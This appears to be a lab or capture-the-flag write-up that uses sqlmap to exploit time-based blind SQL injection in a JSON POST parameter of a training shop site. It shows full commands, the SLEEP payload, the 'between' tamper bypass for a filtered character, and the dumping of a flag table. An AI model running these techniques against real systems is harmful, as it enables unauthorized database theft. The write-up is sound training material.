



# Skills Assessment

### What's the contents of table final_flag?

Navigating to the target landed on a shop site called "Minishop," with no obvious SQLi entry point visible on first glance.


Clicked around the site with the Network panel open, browsing the catalog, until clicking "Add to cart" on a product triggered a POST request to `action.php`, with a JSON body of `{"id": 1}`, confirmed by an "Item added!!!" alert.





Used Copy as cURL from the Network panel's context menu to grab the full request.



### Database Enumeration

Built the SQLMap command from the captured request, marking the injection point inside the JSON body and starting with database enumeration (`--dbs`):

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.78:39913/action.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://154.57.164.78:39913' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.78:39913/shop.html' \
  -H 'Priority: u=0' \
  --data-raw '{"id":1*}' \
--batch -dbs                   
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.10.9#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:42:49 /2026-10-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[12:42:49] [INFO] testing connection to the target URL
[12:42:49] [INFO] testing if the target URL content is stable
[12:42:50] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[12:42:50] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[12:42:50] [WARNING] (custom) POST parameter 'JSON #1*' does not appear to be dynamic
[12:42:50] [INFO] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might be SQL injectable (possible DBMS: 'MySQL')
[12:42:50] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
—SNIP—
[12:44:14] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:44:24] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[12:44:24] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:44:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
—SNIP—
[12:44:33] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
[12:44:49] [INFO] the character '>' appears to be filtered by the back-end server; sqlmap automatically applied the 'between' tamper script to adapt
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2445 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 2677 FROM (SELECT(!SLEEP(5)))bjlE)"}
---
[12:44:49] [INFO] the back-end DBMS is MySQL
[12:44:49] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:44:54] [INFO] fetching database names
[12:44:54] [INFO] fetching number of databases
[12:44:54] [INFO] retrieved: 
[12:45:04] [INFO] adjusting time delay to 1 second due to good response times
2
[12:45:04] [INFO] retrieved: i121nformation_schema
[12:46:07] [INFO] retrieved: production
available databases [2]:
[*] information_schema
[*] production

[12:46:45] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.78'

[*] ending @ 12:46:45 /2026-10-25/
```

**Breakdown:**
- `sqlmap` invokes the tool
- `'http://154.57.164.78:39913/action.php'` is the target URL
- `-X POST` forces the request method to POST
- `-H '...'` flags replicate the headers the browser originally sent, including `Content-Type: application/json`
- `--data-raw '{"id":1*}'` sends the JSON POST body, with `*` marking the injection point directly inside the `id` value
- `--batch` skips every interactive prompt by automatically choosing the default option
- `-dbs` lists the available database names

The run confirmed the parameter was injectable only via time-based blind, found during detection that the character `>` was being filtered by the server, and automatically applied the `between` tamper script to adapt around that filter during the detection phase. Two databases were found: `information_schema` and `production`.

### Dead End: Table Enumeration Failing Silently

Attempted to list tables in `production`, reusing the stored session. This failed outright:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.78:39913/action.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://154.57.164.78:39913' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.78:39913/shop.html' \
  -H 'Priority: u=0' \
  --data-raw '{"id":1*}' \
--batch -D production --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.10.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:49:33 /2026-10-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[12:49:33] [INFO] resuming back-end DBMS 'mysql' 
[12:49:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 2677 FROM (SELECT(!SLEEP(5)))bjlE)"}
---
[12:49:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:49:33] [INFO] fetching tables for database: 'production'
[12:49:33] [INFO] fetching number of tables for database 'production'
[12:49:33] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[12:49:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[12:49:34] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[12:49:34] [WARNING] unable to retrieve the number of tables for database 'production'
[12:49:34] [INFO] fetching number of tables for database 'production'
[12:49:34] [INFO] retrieved: 
[12:49:34] [ERROR] unable to retrieve the table names for any database
do you want to use common table existence check? [y/N/q] N
No tables found
[12:49:34] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.78'

[*] ending @ 12:49:34 /2026-10-25/
```

Tried adding `--no-cast` as SQLMap's own warning suggested, but this didn't resolve anything — table enumeration failed in exactly the same way, right down to retrieving an empty value for the table count.

The real cause turned out to be the same character-filtering issue detected earlier, not a casting problem. The `>` filter and the `between` tamper script SQLMap had auto-applied during initial detection only applied to that detection phase — it wasn't automatically carried over to the separate queries SQLMap builds for table enumeration, so those queries were silently being filtered without any workaround applied.

### Table Enumeration With --tamper Supplied Manually

Re-ran with `--tamper=between` explicitly passed this time:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.78:39913/action.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://154.57.164.78:39913' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.78:39913/shop.html' \
  -H 'Priority: u=0' \
  --data-raw '{"id":1*}' \
--batch -D production --tables --tamper=between 
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.10.9#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:53:07 /2026-10-25/

[12:53:07] [INFO] loading tamper module 'between'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[12:53:07] [INFO] resuming back-end DBMS 'mysql' 
[12:53:07] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 2677 FROM (SELECT(!SLEEP(5)))bjlE)"}
---
[12:53:07] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[12:53:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:53:07] [INFO] fetching tables for database: 'production'
[12:53:07] [INFO] fetching number of tables for database 'production'
[12:53:08] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[12:53:14] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
5
[12:53:19] [WARNING] the target's responses are inconsistent for known-true/known-false probes (reads-everything-true, WAF, or a flaky/degraded channel); extracted data may be unreliable. Consider raising '--time-sec', lowering '--threads', or retrying
[12:53:19] [INFO] retrieved: 
[12:53:24] [INFO] adjusting time delay to 1 second due to good response times
brands
[12:53:45] [INFO] retrieved: categories
[12:54:18] [INFO] retrieved: final_flag
[12:54:58] [INFO] retrieved: order_items
[12:55:45] [INFO] retrieved: products
Database: production
[5 tables]
+-------------+
| brands      |
+-------------+
| categories  |
| final_flag  |
| order_items |
| products    |
+-------------+

[12:56:23] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.78'

[*] ending @ 12:56:23 /2026-10-25/
```

With `--tamper=between` applied explicitly to this query as well, table enumeration succeeded, revealing five tables in `production`: `brands`, `categories`, `final_flag`, `order_items`, and `products`. The table name `final_flag` directly matched what the question was asking for.

### Dumping final_flag

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.78:39913/action.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://154.57.164.78:39913' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.78:39913/shop.html' \
  -H 'Priority: u=0' \
  --data-raw '{"id":1*}' \
--batch -D production -T final_flag --dump --tamper=between 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.10.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:58:29 /2026-10-25/

[12:58:29] [INFO] loading tamper module 'between'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[12:58:29] [INFO] resuming back-end DBMS 'mysql' 
[12:58:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 2677 FROM (SELECT(!SLEEP(5)))bjlE)"}
---
[12:58:29] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[12:58:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:58:29] [INFO] fetching columns for table 'final_flag' in database 'production'
[12:58:29] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[12:58:35] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
2
[12:58:40] [INFO] retrieved: 
[12:58:45] [INFO] adjusting time delay to 1 second due to good response times
id
[12:58:51] [INFO] retrieved: 0
[12:58:56] [INFO] retrieved: content
[12:59:24] [INFO] retrieved: 0
[12:59:29] [INFO] fetching entries for table 'final_flag' in database 'production'
[12:59:29] [INFO] fetching number of entries for table 'final_flag' in database 'production'
[12:59:29] [INFO] retrieved: 1
[12:59:31] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                    
—REDACTED—
[13:01:09] [INFO] retrieved: 1
Database: production
Table: final_flag
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[13:01:11] [INFO] table 'production.final_flag' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.78/dump/production/final_flag.csv'
[13:01:11] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.78'

[*] ending @ 13:01:11 /2026-10-25/
```

**Breakdown:**
- `sqlmap` invokes the tool
- `'http://154.57.164.78:39913/action.php'` is the target URL
- `-X POST` forces the request method to POST
- `-H '...'` flags replicate the headers the browser originally sent
- `--data-raw '{"id":1*}'` sends the JSON POST body with the injection point marked
- `--batch` skips every interactive prompt by automatically choosing the default option
- `-D production` specifies the `production` database
- `-T final_flag` specifies the `final_flag` table
- `--dump` dumps the content of the specified table
- `--tamper=between` loads the `between` tamper script, carrying the earlier character-filtering workaround through to this query as well

With the tamper script applied consistently, column enumeration and the final dump both succeeded, retrieving a single row holding the flag.

**Answer:** `—REDACTED—`